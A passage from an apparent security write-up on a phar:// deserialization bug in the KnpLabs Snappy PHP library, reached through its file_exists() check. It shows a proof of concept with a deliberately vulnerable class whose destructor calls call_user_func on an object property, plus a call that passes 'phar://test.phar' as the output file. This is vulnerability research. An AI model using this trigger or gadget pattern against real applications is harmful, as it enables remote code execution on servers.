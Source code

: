 ```php
            throw new RuntimeException(\sprintf('Could not delete already existing output file \'%s\'.', $filename));
        }
    } elseif (!$this->isDir($directory) && !$this->mkdir($directory)) {
        throw new RuntimeException(\sprintf('The output file\'s directory \'%s\' could not be created.', $directory));
    }
}
```

And the fileExists() method internally calls PHP’s native file_exists() function

![image](./images/image11.png)


file_exists is called and it's one of the file accessed function above. So, what happens if we pass a phar:// wrapper stream to it?

### POC

This bug requires PHP 7.4. Using the previous context, we can write vulneable code like this:

```php
<?php
class User{
    private $name;
    private $age;
    private $func = "touch";
    function __construct($name, $age){
        $this->name = $name;
        $this->age = $age;
    }
    function __destruct(){
        call_user_func( $this->func, 'user/'.$this->name.'.json' );
    }
}

require __DIR__ . '/vendor/autoload.php';

use Knp\Snappy\Pdf;

$snappy = new Pdf('/usr/bin/wkhtmltopdf');
try{
    $snappy->generateFromHtml('<h1>Hello</h1>', 'phar://test.phar');
}catch(\Exception $e){}
?>
```